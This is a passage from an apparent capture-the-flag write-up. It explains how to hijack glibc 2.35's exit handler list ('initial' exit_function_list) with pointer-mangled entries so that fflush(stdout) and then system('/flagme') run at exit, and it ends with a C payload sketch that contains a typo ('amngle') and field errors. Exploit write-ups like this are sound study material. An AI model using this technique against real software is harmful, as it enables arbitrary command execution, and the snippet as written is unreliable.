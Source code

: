 ```C
	    void (*fn) (int status, void *arg);
	    void *arg;
	  } on;
	struct
	  {
	    void (*fn) (void *arg, int status);
	    void *arg;
	    void *dso_handle;
	  } cxa;
      } func;
  };
struct exit_function_list
  {
    struct exit_function_list *next;
    size_t idx;
    struct exit_function fns[32];
  };

// source: https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/exit.h#L25
```

Our target is to overwrite one of the exit functions so that `system("/flagme")` is called. Because the libc for this challenge was patched to use `"/flagme` instead of `"/bin/sh`, the argument to `system` is irrelevant. It just needs to be readable memory because system will read it. So we can use any exit function type, we chose `ef_at = 3` for simplicity.  

There always exists a `initial` exit function list, so we will put our exit functions in there.

```c
// https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/cxa_atexit.c#L75
static struct exit_function_list initial;
struct exit_function_list *__exit_funcs = &initial;
```

To actually get the flag in the browser, we actually needed to flush the output stream before calling `system`. I assume it is because the output is buffered, but I am not sure. The weird part is that we flush **before** we call `system`. To flush the output stream, we need to call `fflush(stdout)`. So we have to use exit function type `ef_cxa = 4` because the argument we can supply, is the first parameter of the function.

The exit functions are executed in the reverse order they were installed in. This means `fns[1]` is execute before `fns[0]`. Therefore the full payload we want to write to `&initial->fns` is:
```C
struct exit_function exploit_exit_functions[2] = {
  {
    .flavor = ef_at,
    .at = mangle(&system, pointer_guard)
  },
  {
    .flavor = ef_cxa,
    .fn = amngle(&s)
  }
};
```
